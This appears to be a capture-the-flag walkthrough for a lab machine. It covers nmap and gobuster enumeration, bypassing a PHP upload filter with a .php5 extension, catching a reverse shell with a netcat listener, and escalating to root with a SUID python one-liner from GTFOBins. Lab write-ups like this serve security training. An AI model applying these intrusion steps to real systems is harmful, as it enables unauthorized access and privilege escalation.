
 in this challenge we have to perform enumeration to get shell and escalate the root privilege.let's deploy the machine.

I started network scanning with nmap to see what services are running on the machine.i used 
``nmap -sVC <ipaddress> > nmapscan.txt`` command to write the output in nmapscan.txt file for safety of information.

this is what i got in nmap scan :

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 14:30 +0545
Nmap scan report for 10.10.24.36
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.13 seconds

```
We can see two ports, port 22 and port 80 are running ssh and http services respectively. I visit on port 80 to see what's running on the web server.



second step , we are going to use gobuster for the directory busting to find the directories on the web server.
```
┌──(cybercena㉿astra)-[~/tryhackme/rootme]
└─$ gobuster dir -u http://10.10.107.17:80 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.107.17:80
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.107.17/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.107.17/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.107.17/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.107.17/panel/]

```
i visit the ``/panel`` directory and got the file uploading options.


i try to upload the php PentestMonkey reverse shell payload from ``revshells.com`` but the site doesn't allow the file with ``.php`` so i change file extension to ``.php5`` and it allow me to upload it.

after successfull upload of the payload i run netcat on my machine to listen the shell using ``nc -lnvp 1234``.



after uploading ``rev.php5`` payload and listen using netcat on my machine i visit ``/uploads/rev.php5`` i got the shell.let's have a linux tour now.


we have to find ``user.txt`` file but we don't know where it locate so i tried `` find / - type f -name user.txt`` and got the user.txt file inside ``/var/www/``.

i read the user.txt file using ``cat /var/www/user.txt`` and got the user flag.


now we have to escalate the root privilege.even the question have suggest us to search for files with SUID permission.``find / -type f -user root -perm -4000 2>/dev/null`` commands helps us to find it. 

we can use python for pri-esc let's visit https://gtfobins.github.io/ and search python we can see the functions that python can run.


lets paste this command into the shell and run it. we got the root shell.
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
we got the shell lets check the username using ``whomai`` command.

now we are root and the flag lies in ``/root/root.txt``


[Note : other small questions can be answered using the scan result of nmap and gobuster that we have done before]